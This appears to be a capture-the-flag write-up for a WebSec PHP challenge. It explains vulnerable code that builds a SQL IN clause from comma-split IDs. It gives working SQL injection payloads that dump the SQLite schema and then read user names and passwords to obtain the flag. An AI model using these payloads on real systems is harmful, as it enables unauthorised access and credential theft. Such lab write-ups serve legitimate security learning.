 + When we give id as 1,2,3 we get 
User user_31 with id 1 has no privileges.
User user_99 with id 2 has no privileges.
User user_29 with id 3 has no privileges.
+ When we give id as 0,0,0 we get
User admin with id 0 has all privileges.
+ The explode() function breaks a string into an array


The remaining integers in the array are then concatenated into a string with commas between them using the implode() function. This string is used in a SQL query to select user information from a database table named 'users'. The query returns the user's ID, privileges, and name.
```
<?php
if (isset($_GET['ids'])) {
    if ( ! is_string($_GET['ids'])) {
        die("Don't be silly.");
    }

    if ( strlen($_GET['ids']) > 70) {
        die("Please don't check all the privileges at once.");
    }

  $tmp = explode(',',$_GET['ids']);
  for ($i = 0; $i < count($tmp); $i++ ) {
        $tmp[$i] = (int)$tmp[$i];
        if( $tmp[$i] < 1 ) {
            unset($tmp[$i]);
        }
  }

  $selector = implode(',', array_unique($tmp));

  $query = "SELECT user_id, user_privileges, user_name
  FROM users
  WHERE (user_id in (" . $selector . "));";

  $stmt = $db->query($query);
```
+ If the length of the string is less than or equal to 70, the code uses explode(',',$_GET['ids']) to split the string into an array of user IDs. It then loops through the array and converts each ID to an integer using (int)$tmp[$i]. If the ID is less than 1, it is removed from the array using unset($tmp[$i]).

+the code constructs a SQL query using the user IDs and executes it using $db->query($query), where $db is an instance of a database connection object. The query selects the user_id, user_privileges, and user_name columns from the users table where the user_id is in the list of user IDs provided in the query string parameter
+ implode(): returns a string from the elements of an array.
+ So lets try a basic sqli payload:<br>
payload: ,,,)) union select 1,2, sql as user_id from sqlite_master--<br>
output: User CREATE TABLE users ( user_id INTEGER PRIMARY KEY, user_name TEXT NOT NULL, user_privileges INTEGER NOT NULL, user_password TEXT NOT NULL ) with id 1 has no privileges.<br>
payload: ,,,)) union select 1,user_name,user_password from users --<br>
output: WEBSEC{SQL_injection_in_your_cms,_made_simple}<br>
